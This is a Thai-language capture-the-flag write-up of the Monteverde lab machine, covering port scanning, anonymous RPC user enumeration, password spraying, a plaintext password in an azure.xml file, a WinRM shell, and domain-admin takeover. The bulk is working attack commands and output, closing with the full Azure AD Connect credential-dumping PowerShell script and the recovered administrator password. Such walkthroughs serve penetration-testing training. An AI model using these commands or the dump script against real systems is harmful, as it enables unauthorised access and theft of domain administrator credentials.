







# Recon 

## TCP Scan 
```bash
sudo ../Tools/scan.sh 10.10.10.172 
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 53,88,135,139,389,445,464,593,3269,3268,5985,9389,49673,49667,49676,49674,49696
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-28 04:50 EDT
Nmap scan report for 10.10.10.172
Host is up (0.033s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 08:29:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message 

49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -21m11s
| smb2-time: 
|   date: 2025-05-28T08:30:34
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.74 seconds

```

## SMB 

```bash
smbclient -N -L //10.10.10.172
smbmap -H 10.10.10.172 -u ice
```



จากภาพด้านบนทำให้ทราบว่า smb ไม่สามารถเข้าได้ และต้องอาศัยใช้ Credential 

## RPC TCP 445 

```bash
rpcclient -U "" -N 10.10.10.172
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]

rpcclient $> netshareenumall
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED
rpcclient $> querydominfo
Domain:         MEGABANK
Server:
Comment:
Total Users:    51
Total Groups:   0
Total Aliases:  23
Sequence No:    1
Force Logoff:   18446744073709551615
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1

rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)


```

จากข้อมูลด้านบนจะเห็นได้ว่ามีชื่อผู้ใช้จำนวนมากที่สามารถ list ออกมาได้ ดังนี้ 

```users.txt
dgalanos
mhope
roleary
SABatchJobs
smorgan
svc-ata
svc-bexec
svc-netapp
```

```bash
netexec smb 10.10.10.172   -u users.txt -p users.txt 
```




## SMB collect credential 

```bash
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
```



ดึงไฟล์ดังกล่าวด้วยคำสั่ง smbclinet 
```bash
smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>                                           
```

จากข้อมูลไฟล์ดังกล่าวจะเห็นได้ว่ามี password เป็น 4n0therD4y@n0th3r$ 

# Password Spraying 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service 10.10.10.172  -u ./users.txt -p '4n0therD4y@n0th3r$' ; done
```


## Shell as mhope 

```bash
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$ 
```


# Host Enum 


รัน WinPeas จะพบว่ามีการใช้งาน Azure ซึ่งหากเราสำรวจ mhope จะเห็น .Azure ซึ่งจะเห็นข้อมูลที่น่าสนใจดังต่อไปนี้ 



### **อธิบายการโจมตี ADSync**
- **Azure AD Sync** จะเก็บข้อมูล credential หรือข้อมูลการเชื่อมต่อกับ Active Directory ลงในฐานข้อมูล SQL Server ภายในเครื่อง
- หากระบบไม่มีการป้องกันที่ดี เช่น การเข้ารหัสข้อมูลรหัสผ่าน หรือจำกัดสิทธิ์การเข้าถึงฐานข้อมูลนี้อย่างเข้มงวด
- ผู้โจมตีที่สามารถเข้าถึงเครื่องเป้าหมายได้ (เช่น ผ่านช่องโหว่อื่น หรือผ่าน session remote shell) อาจดาวน์โหลดและรันสคริปต์ PowerShell 
- สคริปต์นี้จะเชื่อมต่อกับฐานข้อมูล ADSync โดยใช้การเชื่อมต่อที่เชื่อถือได้ (Trusted Connection) และดึงข้อมูลรหัสผ่านของผู้ดูแลระบบออกมา
- ด้วยรหัสผ่านนี้ ผู้โจมตีจะได้สิทธิ์ระดับ **Administrator ของโดเมน** ซึ่งหมายความว่าสามารถควบคุมเครื่อง เซิร์ฟเวอร์ และทรัพยากรในโดเมนได้ทั้งหมด

ref script: 
https://blog.xpnsec.com/azuread-connect-for-redteam/
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1

## ADSyn 

ก่อนอื่นเราต้องโหลด module ของ ADConnect.ps1 ที่ไดมาไปยังเป้าหมาย จากนั้นตรวจสอบและทำการ dump credential ออกมา 
```powershell
*Evil-WinRM* PS C:\Users\mhope\.Azure> . .\adSyn.ps1
*Evil-WinRM* PS C:\Users\mhope\.Azure> get-modules
The term 'get-modules' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ get-modules
+ ~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (get-modules:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\mhope\.Azure> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, ConvertTo-SecureString, Get-Acl, Get-AuthenticodeSignature...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}


*Evil-WinRM* PS C:\Users\mhope\.Azure> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\Users\mhope\.Azure> 

```


# Shell as administrator

```bash
impacket-psexec 'administrator':'d0m@in4dminyeah!'@10.10.10.172
```


# PWNED 


##  ADSyn Script for dump credential  in AZURE

```powershell
Function Azure-ADConnect {param($db,$server)
$help = @"
.SYNOPSIS
    Azure-ADConnect
    PowerShell Function: Azure-ADConnect
    Author: Luis Vacas (CyberVaca)
    Based on: https://blog.xpnsec.com/azuread-connect-for-redteam/

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Azure-ADConnect -server 10.10.10.10 -db ADSync

    Description
    -----------
    Extract credentials from the Azure AD Connect service.

"@
if ($db -eq $null -or $server -eq $null) {$help} else {
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Database = $db; Initial Catalog=$db; 
Integrated Security = True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

"[+] Domain:  " + $domain.Domain
"[+] Username: " + $username.Username
"[+]Password: " + $password.Password
}}
```